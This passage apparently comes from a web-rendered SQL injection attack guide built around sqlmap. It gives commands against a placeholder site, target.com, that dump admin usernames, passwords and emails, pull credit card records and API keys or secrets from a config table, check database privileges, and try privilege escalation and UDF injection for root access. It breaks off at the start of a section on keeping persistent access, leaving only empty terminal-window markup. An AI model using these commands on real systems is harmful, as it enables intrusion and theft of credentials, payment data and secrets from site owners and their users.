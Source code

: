     # Extract user credentials
    python sqlmap.py -u "http://target.com/page?id=1" -D "webapp" -T "users" \
      -C "username,password,email" --dump --where "role='admin'"

    # Search for credit card data
    python sqlmap.py -u "http://target.com/page?id=1" -D "webapp" \
      --sql-query "SELECT * FROM payment_info WHERE cc_number IS NOT NULL LIMIT 10"

    # Extract configuration data
    python sqlmap.py -u "http://target.com/page?id=1" -D "webapp" \
      --sql-query "SELECT * FROM config WHERE config_key LIKE '%api%' OR config_key LIKE '%secret%'"
:::
:::

### Privilege Escalation

::: code-block
    # Check current user privileges
    python sqlmap.py -u "http://target.com/page?id=1" --privileges

    # Check if current user is DBA
    python sqlmap.py -u "http://target.com/page?id=1" --is-dba

    # Attempt privilege escalation (MySQL)
    python sqlmap.py -u "http://target.com/page?id=1" --priv-esc

    # UDF injection for root access
    python sqlmap.py -u "http://target.com/page?id=1" --udf-inject --shared-lib=/tmp/lib_mysqludf_sys.so
:::

### Persistence Mechanisms

::: {.attack-vector .risk-high}
#### Maintaining Access

::: terminal-window
::: terminal-header
::: terminal-buttons
::: {.terminal-button .close}
:::

::: {.terminal-button .minimize}
:::
